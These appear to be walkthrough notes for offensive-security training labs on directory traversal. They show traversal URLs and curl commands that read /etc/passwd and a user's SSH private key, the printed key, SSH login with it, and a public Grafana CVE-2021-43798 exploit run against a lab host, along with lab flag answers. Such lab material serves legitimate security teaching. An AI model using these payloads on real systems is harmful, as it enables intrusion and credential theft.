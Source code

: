 # Identifying and Exploiting Directory Traversals

Example of a link
>``` shell
>https://example.com/cms/login.php?language=en.html
>```

Contents of /etc/hosts
>``` shell
>127.0.0.1       localhost
>127.0.1.1       kali
>192.168.50.16   mountaindesserts.com
>...
>```

Entire URL of our Directory Traversal attack (1)
>``` shell
>http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../etc/passwd
>```

Entire URL of our Directory Traversal attack (2)
>``` shell
>http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../home/offsec/.ssh/id_rsa
>```

SSH Private Key via curl
>``` shell
>kali@kali:~$ curl http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../home/offsec/.ssh/id_rsa
>
># ========== Expected Result ==========
>...
>-----BEGIN OPENSSH PRIVATE KEY-----
>b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
>NhAAAAAwEAAQAAAYEAz+pEKI1OmULVSs8ojO/sZseiv3zf2dbH6LSyYuj3AHkcxIND7UTw
>XdUTtUeeJhbTC0h5S2TWFJ3OGB0zjCqsEI16ZHsaKI9k2CfNmpl0siekm9aQGxASpTiYOs
>KCZOFoPU6kBkKyEhfjB82Ea1VoAvx4J4z7sNx1+wydQ/Kf7dawd95QjBuqLH9kQIEjkOGf
>BemTOAyCdTBxzUhDz1siP9uyofquA5vhmMXWyy68pLKXpiQqTF+foGQGG90MBXS5hwskYg
>...
>lpWPWFQro9wzJ/uJsw/lepsqjrg2UvtrkAAADBAN5b6pbAdNmsQYmOIh8XALkNHwSusaK8
>bM225OyFIxS+BLieT7iByDK4HwBmdExod29fFPwG/6mXUL2Dcjb6zKJl7AGiyqm5+0Ju5e
>hDmrXeGZGg/5unGXiNtsoTJIfVjhM55Q7OUQ9NSklONUOgaTa6dyUYGqaynvUVJ/XxpBrb
>iRdp0z8X8E5NZxhHnarkQE2ZHyVTSf89NudDoXiWQXcadkyrIXxLofHPrQzPck2HvWhZVA
>+2iMijw3FvY/Fp4QAAAA1vZmZzZWNAb2Zmc2VjAQIDBA==
>-----END OPENSSH PRIVATE KEY-----
>...
># =====================================
>```

Using the Private Key to connect via SSH
>``` shell
>kali@kali:~$ ssh -i dt_key -p 2222 offsec@mountaindesserts.com
>
># ========== Expected Result ==========
>The authenticity of host '[mountaindesserts.com]:2222 ([192.168.50.16]:2222)' can't be established.
>Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
>...
>@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
>@         WARNING: UNPROTECTED PRIVATE KEY FILE!          @
>@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
>Permissions 0644 for '/home/kali/dt_key' are too open.
>It is required that your private key files are NOT accessible by others.
>This private key will be ignored.
>...
># =====================================
>
>kali@kali:~$ chmod 400 dt_key
>
>kali@kali:~$ ssh -i dt_key -p 2222 offsec@mountaindesserts.com
>
># ========== Expected Result ==========
>...
>offsec@68b68f3eb343:~$ 
># =====================================
>```

Lab 1 - Follow the steps above and leverage the directory traversal vulnerability in the "Mountain Desserts" web application on VM #1. Use curl or Burp to obtain the SSH private key for the user offsec. Use it to connect via SSH on port 2222 and find the flag in the SSH banner, which is displayed after you log in.
>``` shell
># Map Hostname to IP
>kali@kali:~$ sudo nano /etc/hosts
>
># Add this line at the bottom:
>192.168.179.16 mountaindesserts.com
>
># Save and exit:
>Ctrl + X
>
># Find a users' SSH private key and copy it beginning at "-----BEGIN OPENSSH PRIVATE KEY-----" and ending at "-----END OPENSSH PRIVATE KEY-----"
>kali@kali:~$ curl http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../home/offsec/.ssh/id_rsa
>
># ========== Expected Result ==========
><!DOCTYPE html>
><html>
>    <head>
>...
>-----BEGIN OPENSSH PRIVATE KEY-----
>b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
>NhAAAAAwEAAQAAAYEAz+pEKI1OmULVSs8ojO/sZseiv3zf2dbH6LSyYuj3AHkcxIND7UTw
>XdUTtUeeJhbTC0h5S2TWFJ3OGB0zjCqsEI16ZHsaKI9k2CfNmpl0siekm9aQGxASpTiYOs
>...
>hDmrXeGZGg/5unGXiNtsoTJIfVjhM55Q7OUQ9NSklONUOgaTa6dyUYGqaynvUVJ/XxpBrb
>iRdp0z8X8E5NZxhHnarkQE2ZHyVTSf89NudDoXiWQXcadkyrIXxLofHPrQzPck2HvWhZVA
>+2iMijw3FvY/Fp4QAAAA1vZmZzZWNAb2Zmc2VjAQIDBA==
>-----END OPENSSH PRIVATE KEY-----
># =====================================
>
># Create a file with the stolen SSH private key
>kali@kali:~$ nano dt_key
>
># Paste the SSH private key into dt_key
>
># Save and exit:
>Ctrl + X
>
># Set the correct permissions by running on the SSH key file
>kali@kali:~$ chmod 400 dt_key
>
># Connect via SSH on port 2222
>kali@kali:~$ ssh -i dt_key -p 2222 offsec@mountaindesserts.com
>
># ========== Expected Result ==========
>Linux 8a84873ebe9c 5.4.0-212-generic #232-Ubuntu SMP Sat Mar 15 15:34:35 UTC 2025 x86_64
>OS{8fca25afe0f5ce31e21c3a8ea27c6e85}
>offsec@8a84873ebe9c:~$ 
># =====================================
>```
>OS{8fca25afe0f5ce31e21c3a8ea27c6e85}

Lab 2 - The target VM #2 runs Grafana on port 3000. The service is vulnerable to CVE-2021-43798, which is a directory traversal vulnerability. Search for "golangexample cve-2021-43798" in a search engine to get familiar with how the vulnerability can be exploited. Use curl and the --path-as-is parameter to find the flag in C:\Users\install.txt.
>``` shell
># Copy raw code from https://github.com/taythebot/CVE-2021-43798/blob/main/exploit.go
>
>># Create exploit.go file
>kali@kali:~$ nano exploit.go
>
># Paste the raw code
>
>># Save and exit:
>Ctrl + X
>
>kali@kali:~$ go run exploit.go -target http://192.168.179.193:3000 -file /Users/install.txt
>
># ========== Expected Result ==========
>CVE-2021-43798 - Grafana 8.x Path Traversal (Pre-Auth)
>Made by Tay (https://github.com/taythebot)
>
>[INFO] Exploiting target http://192.168.179.193:3000
>[INFO] Successfully exploited target http://192.168.179.193:3000
>OS{69480c87e9c23bfd86162f8d2335e20d}
># =====================================
>```
>OS{69480c87e9c23bfd86162f8d2335e20d}
